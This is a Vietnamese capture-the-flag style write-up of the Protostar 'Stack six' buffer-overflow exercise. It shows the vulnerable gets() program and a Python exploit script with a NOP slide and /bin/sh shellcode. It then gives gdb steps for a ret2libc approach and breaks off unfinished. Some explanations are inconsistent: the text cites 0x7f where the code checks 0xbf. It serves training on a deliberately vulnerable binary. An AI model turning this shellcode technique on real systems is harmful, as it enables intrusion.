




# Stack six

source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

Trong chương trình này, hàm main gọi hàm getpath(). getpath() yêu cầu nhập vào một đường dẫn với gets().
`ret = __builtin_return_address(0);` là một hàm của compiler, có thể dùng để đọc current return address từ stack. Và địa chỉ của hàm trả về này được kiểm tra nếu nó bắt đầu với `0xbf`. Nếu bằng thì nghỉ chơi. Hàm này làm chúng ta không thể tận dụng lỗi stack overflow như bình thường vì nguyên cái stack của chúng ta bắt đầu với `0xbf`. 
## Cách 1: Orientated programming
Trong các bài trước chúng ta đã biết stack trông như này:

Thông thường sau khi thực hiện xong hàm getpath() thì chương trình sẽ tìm tới ebp trong stack frame của getpath() và quay về hàm main. 
Nhưng trong trừng hợp này nó không thể trả về do stack luôn bắt đầu với 0x7f
vậy lần này chúng ta sẽ làm cho ebp của chương trình chính là lệnh return, hay nói cách khác là cho ebp chứa chính nó, như vậy chương trình sẽ quay trở lại điểm mà nó vừa nhảy ra. Và điều kiện ret không bắt đầu với 0x7f được thỏa mãn.
Lúc này nó lại tạo ra 1 stack frame mới và lấy lệnh tiếp theo làm ebp, lần này, đi theo ebp sẽ cho chúng ta quay trở lại stack.
phần tiếp theo là stack overflow

```py
import struct
padding = "0000AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp = struct.pack("I", 0x080484f9)
new_ebp = struct.pack("I", 0xbffff7c0)
nopslide = "\x90" *150
payload = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print padding + ebp + new_ebp + nopslide + payload
```


như vậy là xong.

## Cách 2: ret2libc

- Debug stack6

> gdb ./stack6
> set disassembly-flavor intel
> disass getpath
> b *getpath
> r
> info proc map

ta thấy `0xb7e97000` là vị trí bắt đầu của libc còn `0x11f3bf` là địa chỉ của  `"/bin/sh"`. Do vậy:



> x/s 0xb7e97000+ 0x11f3bf
> info address system (kiểm tra địa chỉ của system)

Để chương trình sau khi thực hiện xong hàm getpath() rồi quay về hàm system trong libc và gọi system("/bin/sh")
- "/bin/sh" phải nằm ở đầu stack sau khi hàm trả về.
- ebp phải là địa chỉ của system bên trong libc
- eip phải bị ghi đè. ở đây chúng ta sẽ ghi thành "AAAA"

stack trông như sau:


và phần còn lại là:
